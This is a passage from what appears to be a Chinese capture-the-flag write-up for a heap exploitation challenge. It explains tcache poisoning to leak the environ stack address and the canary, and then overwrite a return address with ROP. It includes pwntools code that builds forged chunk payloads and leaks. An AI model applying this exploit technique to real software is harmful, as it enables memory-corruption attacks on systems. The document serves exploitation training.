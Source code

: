 

## exploit

我们已经泄露了堆地址，所以可以伪造tcache chunk的next指针实现任意地址分配，有很多种方法可以完成利用，这里我选择泄露environ栈地址，而后往`add_1E30`函数的返回地址处写ROP。

这里还要先泄露canary，因为输入内容开头有`title`和`key`至少10bytes的内容，且该部分不能有`\x00`，所以只能往至少是`ret_addr-10`的位置开始写，所以一定会覆盖到canary。此外，伪造的tcache chunk必须0x10对齐，`add_1E30`函数的返回地址处低4位为0x8。

所以这里我们申请`ret_addr-0x18`的位置：

* `title`写8bytes，会覆盖到一个note的指针（但是`create_chunk_1C10`返回值会存入这个变量，因此覆盖为任意值都没事）
* 第一个`:`布置到canary最低1byte的位置，`strtok`之后刚好会被覆盖为`\x00`
* `key`写8字节，为canary高7bytes加上任意1字节，会覆盖到`rbp`第0byte
* 第二个`:`会覆盖到`rbp`第1byte
* `note`开头写任意6bytes，覆盖到`rbp`高6bytes

之后就可以正常ROP了。

```python {hide=true}
    logout()
    login("a"*31, p8(0x40)*8)

    # leak environ
    environ = libc_base + 0x20a6e0
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(heap_base + 0x470) # org
    payload += p64(environ) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #13
    logout()
    login('a'*31, p8(0x22)*8)
    show(11)
    ru("note \"")
    stack_addr = u64(rv(6).ljust(8, b'\x00'))
    lg("stack_addr", stack_addr)

    # leak canary
    canary_addr = libc_base - 0x2898
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x101) # 为了满足ROP的输入长度，将原来0x30 chunk伪造为0x100 chunk
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(canary_addr+1) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #14
    show(11)
    ru("note \"")
    canary = u64(rv(7).rjust(8, b'\x00'))
    lg("canary", canary)

    add(b'a'*6, b'b'*8, b'c'*0xe6) #15 -> 0x100 chunk
    dele(15) # free 0x100 tcache chunk
```